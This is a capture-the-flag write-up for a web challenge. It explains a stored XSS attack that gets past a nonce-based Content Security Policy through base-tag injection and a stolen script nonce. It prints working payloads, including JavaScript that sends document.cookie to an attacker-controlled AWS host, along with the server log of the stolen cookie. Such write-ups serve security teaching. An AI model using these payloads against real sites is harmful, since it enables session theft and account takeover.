

# rBlog 2018 - Web

## Problem

get `document.cookie`

http://rblog.2018.teamrois.cn

Then on the URL:

```
rBlog 2018
Title: [input]
Content: [textarea]
Style: [dropdown]
Image: [file-selector]

About rBlog 2018
Store your secrets here but don't do evil things

Report Abuse
Report to admin who is using latest version of Chrome Stable
Report: /blog.php [input]
```

## Tools Used

- https://csp-evaluator.withgoogle.com/
- Amazon Web Services
- Burp Suite (optional)


## Solution

The description makes it obvious this is an XSS attack. However, this proved to be quite ingenious really enjoyable, so unless you solved this, I hope you will learn something from this article.

Start off by observing the context. We have a form where we can submit blog posts. Posts consist of a picture, a title, some content and the style of the page.

Start off by observing how the form works. Intercept the request in burpsuite and repeat it an XSS payload in to all fields to see how things behave. (For this challenge you don't need burpsuite, just wanted to bypass some annoying possible frontend validations). Sample:

```
POST / HTTP/1.1
Host: rblog.2018.teamrois.cn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://rblog.2018.teamrois.cn/
Content-Type: multipart/form-data; boundary=---------------------------9429957898579749681538093471
Content-Length: 631
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="title"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="content"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="effect"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------9429957898579749681538093471--
```

Follow the redirect in the response, inspect the page. Bingo: title is not properly escaped. However, the script does not execute. Getting this error instead: `Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-a716e2b3d6aa62c5c44e2bd90047f1f9'". Either the 'unsafe-inline' keyword, a hash ('sha256-d3ii1Pel57UO62xosCMNgTaZJhJa87Gd/X6e7UdlEU8='), or a nonce ('nonce-...') is required to enable inline execution.`

There is a [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) in place, obvious from the response header `Content-Security-Policy: default-src 'none'; script-src 'nonce-db072321d0fa2546c1472c3b9aa0030c'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'`

Formatting the response header nicer:

```makefile
Content-Security-Policy:
    default-src 'none';
    script-src 'nonce-db072321d0fa2546c1472c3b9aa0030c';
    frame-src https://www.google.com/recaptcha/;
    style-src 'self' 'unsafe-inline' fonts.googleapis.com;
    font-src fonts.gstatic.com;
    img-src 'self'
```

Now we need to bypass that. Google wrote a tool to test your CSP. You can find it here https://csp-evaluator.withgoogle.com/. You can either give it the CSP itself, or the link to extract. Paste the above and we get the following result.



So script-src is missing, but that will not help, because the admin is using the latest version of Chrome Stable (written on the challenge page). We will need to use base-uri. This allows us to redirect anything that does not have the base set. Looking through the response, I see this

```html
<script nonce="a716e2b3d6aa62c5c44e2bd90047f1f9" src="/assets/js/jquery.min.js"></script>
```

Bingo, I just need to create something like that in the wild served from a public IP / DNS. There are many ways of doing that, AWS being the most obvious, but I went for github pages and I created an organization called `aicioara-gh-pages`, a repository called `assets` and inside the file `/js/jquery.min.js` with the payload `alert(0);` and I turned on GitHub pages from settings. This created the following public url `https://aicioara-gh-pages.github.io/assets/js/jquery.min.js`. This is great if you need an HTTPS resource out there. For this challenge it was not the case, so I should have gone with AWS.


Once I have that I want to make a blog post with the following title:

```
<base href = "https://aicioara-gh-pages.github.io" />
```

Following the redirect, I get the alert. Now I have arbitrary code execution. Now I need to steal the cookie. Unfortunately the code execution I have is not so arbitrary. Changing the payload in my version of jquery.min.js to something like

```js
var payload = document.cookie;
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "http://example.com?" + payload, true);
xhttp.send();
```

Will not work. AJAX is blocked by the CSP. We need to make a `GET` request in some other way (think loading an external stylesheet, video, script, etc). The only action allowed is having a `<script>` with the correct nonce. Fortunately this is something we can do. All scripts on the page have a nonce, so we can steal one. We have arbitrary code execution, so we can read the nonce from any `<script>` tag, then create a new `<script>` tag, ask it to fetch its content from a location controlled by us, and add the payload as parameter. The payload in `/js/jquery.min.js` then becomes:

```js
var payload = document.cookie;
var nonce = document.querySelector("script").nonce;

var src = `http://ec2-54-152-84-87.compute-1.amazonaws.com/?${payload}`

var s = document.createElement('script')
s.type = 'text/javascript'
s.src = src
s.setAttribute('nonce', nonce)

document.body.appendChild(s);
```

On the AWS side of things, I just created a new EC2 VM, opened up port 80 and ran `python -m "SimpleHTTPServer" 80`. Submitted the URL for the post (the one with the `<base>` injection) to the admin and waited.

On AWS I get

```
115.159.200.107 - - [19/May/2018 17:53:52] "GET /?flag=RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012};%20hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d
```

**Flag: RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}**
